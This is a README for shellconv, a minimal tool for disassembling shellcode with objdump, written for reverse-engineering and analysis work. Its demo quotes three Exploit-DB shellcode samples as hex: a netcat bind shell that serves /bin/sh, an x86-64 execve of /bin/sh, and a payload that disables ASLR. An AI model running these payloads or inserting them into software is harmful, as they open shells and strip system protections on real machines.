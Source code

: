 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
```
usage: shellconv.py [-h] --infile INFILE [--arch ARCH] [--outfile OUTFILE]

arch: defined as in objdump -m, default: i386
```
---

__DISCLAIMER__

This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.

## Installation
Requirements: Python3 (with PIP), objdump

Install the dependencies by:

```console
pip install -r requirements.txt
```

# Demo

1) https://www.exploit-db.com/exploits/36921/

expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>

![](img/expdb1-32b.png)

<br/><br/>

2) https://www.exploit-db.com/exploits/36858/
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>

<br/><br/>

3) https://www.exploit-db.com/exploits/36637/
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a
\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70
\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72
\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63
\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>

